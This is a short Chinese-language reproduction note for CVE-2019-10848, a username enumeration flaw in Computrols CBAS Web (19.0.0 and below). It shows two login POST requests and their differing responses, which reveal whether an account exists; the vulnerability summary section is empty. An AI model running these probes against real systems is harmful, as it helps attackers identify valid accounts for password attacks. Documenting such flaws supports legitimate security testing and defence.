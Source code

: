 # （CVE-2019-10848）Computrols CBAS Web 用户名枚举

> 原文：[https://www.zhihuifly.com/t/topic/2852](https://www.zhihuifly.com/t/topic/2852)

# （CVE-2019-10848）Computrols CBAS Web 用户名枚举

## 一、漏洞简介

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

### 测试无效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">randomuser</p> 
```

### 测试有效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">Invalid username/password combination.  Please try again!</p> 
```